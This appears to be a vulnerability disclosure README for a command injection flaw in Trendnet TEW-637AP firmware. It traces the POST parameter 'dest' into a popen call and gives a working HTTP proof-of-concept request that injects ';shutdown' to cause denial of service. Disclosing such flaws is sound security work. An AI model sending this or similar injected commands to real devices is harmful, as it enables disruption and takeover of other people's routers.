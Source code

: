 # Trendnet TEW-637AP(V1.3.0.106) Contains Command injection vulnerability 

## overview

- Manufacturer's website information：https://www.trendnet.com/
- Firmware download address: https://www.trendnet.com/support/support-detail.asp?prod=145_TEW-637AP

## product information

TEW-637AP(V1.3.0.106)

![image-20220828224337173](readme.assets/image-20220828224337173.png)

## description

### 1. Vulnerability Details

The TEW-637AP(V1.3.0.106) contains a command injection vulnerability in file `/bin/goahead`. function`sub_424E10`

![image-20220828224853509](readme.assets/image-20220828224853509.png)

![image-20220828224839226](readme.assets/image-20220828224839226.png)

we can control var `v1` through POST parameter `dest`.Because of `strcat(v12, v2)`, we can control ,and the function calls `popen(v12, r)`, so there is a command injection vulnerability. 

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/addRouting HTTP/1.1
Host: 192.168.0.50
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://192.168.0.50
Connection: close
Referer: http://192.168.0.50/wireless/wireless_mac_filtering.asp
Upgrade-Insecure-Requests: 1


dest=;shutdown
```

By sending this poc, we can cause dos 

![image-20220828225046587](readme.assets/image-20220828225046587.png)

